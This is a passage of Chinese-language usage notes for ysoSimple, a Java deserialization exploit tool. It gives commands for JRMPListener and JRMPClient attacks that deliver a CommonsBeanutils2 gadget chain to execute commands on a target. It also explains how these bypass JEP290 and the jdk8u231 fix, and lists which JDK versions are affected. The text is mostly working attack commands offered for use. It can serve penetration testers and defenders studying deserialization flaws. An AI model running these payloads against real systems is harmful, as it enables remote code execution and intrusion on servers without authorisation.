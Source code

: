 ##### payload.JRMPListener 目标机监听

让目标机反序列化如下Payload，它将会开启2333端口监听。这个攻击主要会开启端口监听也不知道怎么关，实战中还是慎用吧

```bash
-m YsoAttack -g JRMPListener -a "2333"
```

##### JRMPClient 连接

运行下面的逻辑让Client发送CommonsBeanutils2利用链到目标机触发二次反序列化

```java
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPClient 127.0.0.1 2333 CommonsBeanutils2 "Templateslmpl:auto_cmd:calc"
```

#### payload.JRMPClient&exploit.JRMPListener

相比于上面的利用链需要目标站点开启监听端口，exploit.JRMPListener的打法只需要目标站点反连攻击机就行且在JDK中适用的版本更广。

##### exploit.JRMPListener 攻击者监听

```bash
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPListener 2333 CommonsBeanutils2 "Templateslmpl:auto_cmd:calc"
```

##### JRMPClient(jdk<8u231)

描述：在java.rmi.server.RemoteObjectInvocationHandler JEP290(8u121)默认只为RMI注册表(RMI Register层)和RMI分布式垃圾收集器(DGC层)提供了相应的内置过滤器，而最底层的JRMP是没有做过滤器的，所以使用 JRMPClient 可以绕过 JEP290 JRMPClient 反序列化漏洞点: sun.rmi.transport.StreamRemoteCall#executeCall，JRMP客户端反序列化顺序:

1. 反序列化服务端给的returnType
2. 反序列化服务端给的一个ID
3. 反序列化服务端给的报错信息(Payload位置)

限制：jdk < 8u231

```bash
-m YsoAttack -g JRMPClient -a "127.0.0.1:2333"
```

##### JRMPClient2(jdk<8u241)

描述：JRMPClient可以绕过JEP290的限制，但是在jdk8u231时候官方有了俩条修复：

1. 在RegistryImpl\_Skel#dispatch中每个case中增加了ClassCastException，执行到反序列化时因为反序列化返回的对象类型不是String而报错。
2. 在DGCImpl\_Stub#dirty之后UnicastRef.invoke之前增加了一个过滤器：`StreamRemoteCall#setObjectInputFilter`​

绕过jdk8u231的修复：在满足条件的类的readObject代码中找到同样能发起JRMP请求的地方，并且不经过DGCImpl\_Stub#dirty方法直接触发JRMP协议，找到的类就是UnicastRemoteObject

限制：jdk < 8u241

```bash
-m YsoAttack -g JRMPClient2 -a "127.0.0.1:2333"
```

##### JRMPClient3(暂未研究)
